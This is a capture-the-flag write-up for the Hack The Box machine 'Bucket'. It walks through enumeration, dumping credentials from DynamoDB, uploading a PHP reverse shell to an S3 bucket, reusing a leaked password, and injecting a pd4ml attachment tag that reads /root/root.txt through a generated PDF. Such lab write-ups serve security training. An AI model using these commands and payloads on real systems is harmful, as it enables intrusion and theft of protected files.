# Box 




https://www.hackthebox.eu/home/machines/profile/283


# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

 

## Reconnaissance

Let's start with nmap :

```bash
nmap -A -oN nmap 10.10.10.212
```




There's a website so I checked the source code and we can see that the images are uploaded in a "s3.bucket.htb" subdomain. I searched for "bucket" vulnerability and we see exploits for misconfigured bucket. Unfortunaly I found nothing on the website.

I've done a gobuster on the  http://s3.bucket.htb and we find a webshell.




After readings a lot of documentation, I try to get the user table.



We got credentials in the database which will be useful later.


I was blocked during hours, I read a lot of documentation about aws, that's where I start using the aws cli and understand how it works.

I use aws acli to get list of all buckets installed.



## Exploitation

Let's try to upload our own bucket : 

```bash
aws s3 cp ./reverse_shell.php s3://adserver --endpoint-url http://s3.bucket.htb/
```




It does work and now you need to go to http://bucket.htb/reverse_shell.php to get your reverse_shell.



## Post-Exploitation

### User

We are in but we are not a user. But we see a user in the /home, there is a roy directory. 

Based on the credentials we got earlier I try the password "n2vM-<_K_Q:.Aa2" which is the sysadm password and it works, we grab our user.txt hash and go on root. 

### Root

We do an enumeration and we find a port :8000 where it seems to have a webpage.



We need to redirect the port to our local  machine to be able to interact with the port. From the remote machine you can do :

```bash
ssh -R 8000:localhost:8000 kali@10.10.14.143 
```

Or from your local machine : 

```bash
ssh -L 8000:127.0.0.1:8000 roy@10.10.10.212
```


We can see the website :




I search for a file called "index*" on the remote machine and we find an index.php file which contains this code : 



It seems that we can generate a pdf with a specific crafted POST request. I will use BURP for that request.

I just add to my request in burp this POST parameter to trigger the if statement : 

```php
action=get_alerts 
```

We got a 500 internal server error. 



I dig more in the code and I undestand the problem. The php code from a specific table which does not exist if we don't create it, so I read more documentation about how the Dynamodb works and how to create a proper table called "alerts" with a specific data in it, which is "Ransomware" here.We also have to insert a data called "data" to inject in the pdf.

Here you can see the payload which send dummy data for now : 

```bash
aws dynamodb create-table \
        --table-name alerts \
        --attribute-definitions AttributeName=title,AttributeType=S  AttributeName=data,AttributeType=S\
        --key-schema KeyType=HASH,AttributeName=data KeyType=RANGE,AttributeName=title  \
        --endpoint-url http://localhost:4566 \
        --provisioned-throughput ReadCapacityUnits=100,WriteCapacityUnits=100

TEMPLATE='{"title":{"S":"Ransomware"},"data":{"S": "our_payload"}}'
aws dynamodb put-item --table-name alerts --item "$TEMPLATE" --endpoint-url http://localhost:4566
```

It does work, we have a pdf where we can see our data "our_payload" in it.

For the last step you need to understand how you can inject code in the pdf and read our root.txt file (https://pd4ml.com/cookbook/pdf-attachments.htm). 

Replace the template value with this line :

````bash
{"title":{"S":"Ransomware"},"data":{"S": "<pd4ml:attachment description=\"root.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}
````

We got our root.txt file.


Rooted.